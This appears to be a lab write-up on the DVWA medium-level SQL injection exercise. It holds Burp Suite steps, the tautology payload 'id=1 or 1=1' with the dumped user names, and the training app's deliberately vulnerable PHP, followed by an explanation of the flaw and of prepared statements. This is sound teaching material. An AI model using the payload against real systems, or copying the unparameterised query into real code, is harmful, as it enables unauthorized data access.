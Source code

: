 # SQL Injection - Medium 

---

## Attack Steps 

1. Open burp suite
    - Temporary Project 
    - Use Burp Default

2. Navigate to proxy
    - Set intercept to off 
    - Open browser

3. Set security level to medium 
    - http://localhost/dvwa/security.php

4. Navigate to SQL Injection

5. Turn intercept back on 

6. Choose an ID and submit 

7. Edit the request 
	- Change the id value 
	- From:
	```bash 
	id=1&Submit=Submit
	```
	- To: 
	```bash 
	id=1 or 1=1&Submit=Submit
	```

8. Observe the list of names 
	```html 
	ID: 1 or 1=1
	First name: admin
	Surname: admin

	ID: 1 or 1=1
	First name: Gordon
	Surname: Brown

	ID: 1 or 1=1
	First name: Hack
	Surname: Me

	ID: 1 or 1=1
	First name: Pablo
	Surname: Picasso

	ID: 1 or 1=1
	First name: Bob
	Surname: Smith
	```

---

## Vulnerable Code Analysis

### File:
`C:\xampp\htdocs\DVWA\vulnerabilities\sqli\source\medium.php`

#### Code:

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Display values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

### Explanation: 
- The code takes direct user input `$id` and attempts basic sanitisation by escaping certain characters 
	```php
	    $id = $_POST[ 'id' ];
    	$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
	```

- This can be exploited using the payload or 1=1: 
	- Assuming the chosen id was 1
    - The query will become SELECT first_name, last_name FROM users WHERE user_id = 1 or 1=1.
    - The result will always be true
    - Consequently all first and last names will be output.

- Causes: 
    - `mysqli_real_escape_string` only escapes certain characters so SQL keywords or logic operators (OR) are allowed through
    - Direct insertion of user input into queries means queries can be manipulated
    - Not using prepared statements, prepared statements treat user input only as data rather than SQL code so even if SQL keywords are included they won't modify the queries 


